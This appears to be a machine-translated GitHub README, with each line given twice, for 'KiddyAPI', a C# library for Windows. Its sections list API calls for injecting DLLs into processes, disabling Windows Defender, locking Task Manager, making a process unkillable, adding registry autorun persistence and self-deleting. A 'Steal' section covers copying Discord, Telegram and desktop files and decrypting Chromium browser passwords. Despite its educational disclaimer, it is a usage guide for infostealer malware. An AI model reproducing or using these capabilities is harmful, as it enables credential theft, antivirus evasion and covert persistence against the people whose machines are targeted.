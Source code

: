 # KiddyAPI --  Shitty translation, original credit @ Whiroo/KiddyAPI  <--
KiddyAPI created from "script kiddie" to "script kiddie". Library, to learn not very correct methods of working with Windows OS.

KiddyAPI is created from script-kiddies for script-kiddies. Library for learning not very correct methods of working with Windows.

Tested on Win7 x64. In the near future I will add more features.

Tested on Win7 x64. In the near future I will add more features.
## Disclaimer: / Denial of responsibility:
This library was written for educational purposes, the author is not responsible for the use for other purposes.

This library was written for educational purposes; the author is not responsible for use for other purposes.

Use only on your own computers or with the permission of the user

Use only on their computers or with the permission of the user
## Namespaces and methods / Namespaces and methods:
### Info:
Get active user window by title bar / Get the active user window by title :
``C#
CheckWindow.GetWindow("example");
``
Set new password on Windows / Set a new password on Windows:
``C#
SystemWork.ChangeWinPass("example");
``
Get external IP address / Get external IP address:
``C#
SystemWork.GetIP();
``
Get information about required modules / Get information about the required modules :
``C#
SystemWork.GetInfo(WinClass,ClassItem);
``
Get MAC address / Get MAC Address:
``C#
SystemWork.GetMacAddress();
``
Get screenshot / Get a screenshot of the screen:
``C#
SystemWork.GetScreen("C:\\example");
``
### Injector:
Injectin in the process C++ DLL / occured injecting into the C ++ DLL process:
``C#
Injector.Execute("pathToDLL", Process);
``
### Config:
Class for further developments, so far there is nothing in it wrote

Check under admin if launched :
``C#
if(Config.IsAdmin) { blablabla }
``
### Protect:
Disable Windows Defender - `DisableDefender.FirstRun();` - Used when the program is first started,
then use `DisableDefender.CheckDefender();` in a loop in order to check for any changes in the settings

Disable Windows Defender - `DisableDefender.FirstRun ();` - Used when first running the program,
then use `DisableDefender.CheckDefender ();` in an infinite loop to check if the parameters have changed

Close the program if some process is running / Close the program if some process is running. :
``C#
HideModule.CheckProcess("example");
``
Block/Unblock the task Manager / Lock / Unlock Task Manager :
``C#
HideModule.EnableTaskManager(true/false);
``
Self-Delete / SelfDelete :
``C#
HideModule.Suicide("pathToOwnExe");`
``
Add to startup( through the registry ) / Autorun:
``C#
HideModule.SetAutorun("the name that will appear in the registry", "pathToFile");
``
Make process impossible to kill in task Manager / Make the process impossible to kill in the Task Manager:
``C#
ProcessProtect.Protect();
``
### Steal :

Here we copy files from desktop/Discord session/Telegram session / Here we copy files from the desktop / Discord session / Telegram session:

General view such :
``C#
Apps.Desktop/Telegram/Discord/.Steal("pathToCopy", true/false("overwrite old files if already present");
``

Decrypt passwords from ChromiumBased browsers / Decrypt passwords from ChromiumBased browsers :
``C#
`Browsers.DecryptBrowsers(byte [] is "the password from the database",byte [] entropy);`
``
Grabber did not add, as it is already fat. Decrypt occurs through WinAPI function.
